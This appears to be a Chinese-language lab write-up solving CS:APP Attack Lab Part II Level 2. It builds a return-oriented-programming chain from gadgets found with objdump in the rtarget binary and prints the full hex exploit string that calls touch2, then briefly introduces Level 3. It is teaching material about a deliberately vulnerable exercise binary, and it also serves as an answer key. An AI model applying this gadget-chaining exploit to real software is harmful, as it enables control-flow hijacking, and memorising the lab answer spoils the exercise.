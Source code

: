 ##part II level 2

第二部分的题目无法实现代码注入，但还是有办法。一个最基本的办法是利用ret指令和popq，ret指令会执行栈上对应的函数，popq可以把栈上的值复制到一个寄存器。另外还有一个技巧就是一段二进制的代码，我们如果从某个地方开始看，可以得到一种不同的解释。比如c3可能作为数据的一部分，但如果直接解释的话，就会得到ret指令。

这里我们仍然需要调用touch2函数，这里的基本思路还是执行下面的汇编代码，不过需要改进。
```
	0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
	5:   68 ec 17 40 00          pushq  $0x4017ec
	a:   c3                      retq   
```
因为我们不能在栈上执行代码，所以我们需要对上面的代码进行改动，使得自使用movq，popq，ret，nop就可以完成。可以改成下面这样。
```
popq %rax //栈上值为0x59b997fa
movl %eax, %edi
ret //栈上值为0x4017ec
```
这里，我们可以先反编译rtarget，得到rtarget.d；然后编译方面的汇编代码，得到c4.d。
```
objdump -d rtarget > rtarget.d
gcc -c c4.s
objdump -d c4.o > c4.d
cat c4.d
	0:   58                      pop    %rax
	1:   89 c7                   mov    %eax,%edi
	3:   c3                      retq    
```
然后我们在rtarget.d里面查找对应的指令，发现一般最多能匹配一条指令，所以后面的指令只能去其他地方查找，并且后面只能跟上ret（前面可以用nop指令）。查找的结果如下：

```
00000000004019a7 <addval_219>: 
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax //4019ab
  4019ad:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi) //4019c6
  4019c9:	c3 
```
有了这些，我们可以直接写答案了。
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00 //pop    %rax
fa 97 b9 59 00 00 00 00 
c6 19 40 00 00 00 00 00 //mov    %eax,%edi
ec 17 40 00 00 00 00 00 //控制转移到touch2
```

##part II level 3

这一部分我们要调用的是touch3函数。我们做完了前面，就已经可以得到95分了，所以这里真的很难。难的地方主要有两个，第一是由于栈随机化，我们可以把字符串放在栈上，但是字符串的地址不能自己计算，只能通过已知的变量进行偏移得到。第二是因为要满足前面的要求，所以汇编代码比较长，不好写也不好调试。
